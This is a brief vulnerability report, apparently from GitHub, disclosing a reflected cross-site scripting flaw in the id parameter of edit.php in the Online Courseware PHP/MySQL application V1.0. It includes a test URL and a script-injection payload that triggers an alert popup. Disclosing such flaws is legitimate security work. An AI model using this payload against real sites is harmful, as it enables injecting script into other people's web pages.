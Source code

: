 #### BUG_AUTHOR:LIU WEIYU
## Online Courseware – reflected XSS on (edit.php?id=XX) 
### Vendor Homepage:
https://www.sourcecodester.com/php/4818/online-courseware-using-phpmysql.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
edit.php?id=XX 

On this page,id parameter is vulnerable to reflected XSS Attack 
### Proof of vulnerability:
#### Visit this page：
http://localhost/onlinecourseware/pcci/admin/edit.php?id=1
### Payload：
“></script><script>alert(1)</script>
### Trigger popup：
<img width="416" alt="image" src="https://github.com/thisissuperann/Vul/assets/148440408/daf3a6c2-5400-4bf8-b64e-84f7f0606ef0">
